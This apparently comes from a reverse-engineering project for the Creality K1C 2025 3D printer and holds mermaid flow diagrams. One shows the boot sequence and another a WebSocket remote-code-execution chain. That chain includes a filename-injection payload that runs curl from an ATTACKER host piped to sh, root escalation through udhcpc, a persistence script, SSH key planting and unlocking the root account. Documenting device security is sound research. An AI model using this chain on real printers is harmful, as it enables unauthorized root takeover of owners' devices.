




# Creality K1C 2025 — Flow Diagrams

## 1. Boot Flow (POWER → READY)

```mermaid
flowchart TD
    A([POWER ON]) --> B[U-Boot SPL\neMMC offset 0x4600\nencrypted]
    B --> C[U-Boot 2013.07\nencrypted\nloads kernel from mmcblk0p5]
    C --> D[Linux 5.10.186\nMIPS32 LE\ninitramfs → RAM]
    D --> E[/linuxrc\nbusybox init\nreads /etc/inittab]
    E --> F[/etc/init.d/rcS]
    F --> G[S10mdev\ndevice manager]
    G --> H[S20urandom\nRNG seed]
    H --> I[S30dbus]
    I --> J[S40network\nlo interface]
    J --> K[S50dropbear\nSSH on port 22]
    K --> L[. /bin/seed.sh\nsourced in rcS shell]
    L --> M[seed.sh\nsee seed.sh flow]
    M --> N[run_system_service\nS??* as root]
    N --> O[run_creality_service\nCS??* as creality]
    O --> P([SYSTEM READY])

    style A fill:#2d2d2d,color:#fff
    style P fill:#1a5c1a,color:#fff
    style K fill:#1a3a5c,color:#fff
    style L fill:#5c3a1a,color:#fff
```

---

## 2. seed.sh Execution



---

## 3. WebSocket RCE Exploit Flow

```mermaid
flowchart TD
    A([Attacker\nLAN access]) --> B[python3 k1c-2025-exploit.py\n--host-ip ATTACKER\n--printer-ip PRINTER\n--public-key id_ecdsa.pub]
    B --> C[Start HTTP server\nport 4444\nserving payloads]
    B --> D[WebSocket connect\nws://PRINTER:9999\nsubprotocol: wsslicer]
    D --> E[Send JSON\nmethod: set\nparams.print: http://ATTACKER/exploit-TIME]
    E --> F[vectorp\nprint_proc\nservice_httpchunk_request]
    F --> G[Printer fetches\nhttp://ATTACKER/exploit-TIME]
    G --> H[Server responds\nContent-Disposition: filename=\ndest';curl http://ATTACKER/bootstrap.sh | sh;#.gcode]
    H --> I[Shell injection\nin filename handling]
    I --> J[Printer fetches\n/bootstrap.sh]
    J --> K[wget /privesc.py\nudhcpc -s /tmp/privesc.py]
    K --> L[udhcpc runs privesc.py\nas ROOT\nCAP_NET_ADMIN]
    L --> M[wget /S999persistence\nchmod +x\nexec S999persistence]
    M --> N[mkdir /root/.ssh\nchmod 700\necho PUBLIC_KEY\n→ authorized_keys]
    N --> O[dropbearkey gen\nhost keys]
    O --> P[chattr -i /tmp/shadow\nsed unlock root account]
    P --> Q([SSH root@PRINTER\nauthenticated])

    style A fill:#2d2d2d,color:#fff
    style Q fill:#1a5c1a,color:#fff
    style L fill:#5c1a1a,color:#fff
    style I fill:#5c3a1a,color:#fff
```

---

## 4. Print Flow (Touch → Motion)



---

## 5. Cloud Phone-Home Flow



---

## 6. Recovery Flow (Software Path)


